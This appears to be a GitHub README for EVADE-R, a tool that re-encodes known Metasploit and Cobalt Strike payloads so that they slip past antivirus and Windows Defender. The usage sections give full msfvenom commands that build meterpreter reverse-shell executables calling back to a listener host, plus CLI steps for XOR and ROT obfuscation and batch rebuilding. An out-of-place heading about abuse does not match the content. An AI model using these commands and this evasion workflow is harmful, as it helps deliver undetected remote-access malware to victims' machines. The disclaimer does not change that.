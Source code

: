 <h1 align="center">
  🛡️ Physical, Sexual and Psychological Abuse: By Aidan James Ahern🧠
</h1>

<p align="center">
  <i>Evasion Validator and Automated Decoder Engine for Red-teaming</i><br>
  <b>EVADE-R</b> is a Red Team utility that transmutes known payloads into new forms designed to slip past antivirus and EDR defenses—without breaking functionality.
</p>

---

## 🧬 What It Does

> Takes a known `.exe` payload → disassembles → obfuscates → recompiles → survives.

**EVADE-R** is an automated toolchain that:
- 💥 Accepts known malware signatures (e.g., Cobalt Strike, MSF payloads)
- 🧠 Decompiles and extracts `.text` section shellcode
- 🌀 Obfuscates shellcode via multiple encoding techniques (XOR, Rolling XOR, ROT)
- 🧪 Rebuilds a working `.exe` with runtime decoder stubs
- 🦠 Bypasses Windows Defender with ease

---

## 🛠️ Features

✅ Shellcode extractor  
✅ Multiple obfuscation techniques:
  - Simple XOR encoding with randomized key
  - Rolling XOR with multi-byte keys for enhanced evasion
  - ROT (byte rotation) encoding
✅ Runtime decoder stub injection  
✅ Minimal stub loader in C  
✅ Automated rebuild and output generation
✅ Command-line interface for automation  
✅ Support for both EXE and raw shellcode payloads  
🚧 Looping & VT feedback (coming soon)  
🚧 Junk injection and instruction substitution (planned)

---

## ⚙️ Setup

### 📦 Requirements
- Arch Linux (or other distro)
- `mingw-w64-gcc` (`sudo pacman -S mingw-w64-gcc`)
- Python 3.10+
- `capstone`, `lief`, `keystone-engine`

### 🧱 One-Time Install

```bash
git clone https://github.com/godofthunder8756/evade-r.git
cd evade-r
chmod +x setup.sh run.sh
./setup.sh
```
## 🚀 Usage

### 🎯 Generate a detectable payload (example)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.5.0.59 LPORT=4444 -f exe -o payload.exe
🧼 Transform it with EVADE-R

./run.sh payload.exe
```

This will:

    Extract and XOR-encode the shellcode

    Insert a runtime decoder stub

    Recompile into a new executable

You’ll find the results in:
```
artifacts/
└── payload/
    ├── EVADE_payload.exe              # Final obfuscated and rebuilt payload
    ├── obfuscated_disassembly.txt     # Human-readable disassembly with obfuscation
    └── text_section.bin               # Raw extracted .text section shellcode
``` 

## 🔒 Ethical Use Only

This tool is provided strictly for ethical hacking, research, and red team training purposes.
Do not use EVADE-R on systems or networks you do not own or have explicit permission to test.

The creator assumes **no** responsibility for illegal or malicious use.

---

## 📋 Advanced Usage

### Command Line Options

EVADE-R now supports several command-line options for greater flexibility:

```bash
python msf_session.py -h
```

Available options:

```
  -h, --help            Show this help message and exit
  -c COMMAND, --command COMMAND
                        MSFVenom command to run
  -i INPUT, --input INPUT
                        Use existing payload file instead of generating new one
  -o OUTPUT, --output OUTPUT
                        Output filename
  -e {1,2,3}, --encoder {1,2,3}
                        Obfuscation method (1=XOR, 2=Rolling XOR, 3=ROT)
  --cleanup             Remove original payload file after obfuscation
  --no-interactive      Run in non-interactive mode with defaults
```

### Examples

```bash
# Direct command execution with specific encoder
python msf_session.py -c "msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe" -e 2

# Process existing payload with custom output path
python msf_session.py -i payload.exe -o custom/path/stealth.exe -e 3

# Batch processing (non-interactive)
python msf_session.py -i payload.exe -e 1 --no-interactive --cleanup
```

### Obfuscation Techniques

1. **Simple XOR (Level 1)** - Basic XOR encoding with a random byte key
   * Good for basic signature evasion
   * Fastest processing speed

2. **Rolling XOR (Level 2)** - Multi-byte key XOR with rotating pattern
   * Better evasion against static analysis
   * Defeats simple XOR pattern detection

3. **ROT Encoding (Level 3)** - Byte rotation with random shift value
   * Alternative encoding method
   * Useful when XOR patterns are flagged

### 🧙 Author

  Made with blood, bytes, and broken detections by Aidan Ahern
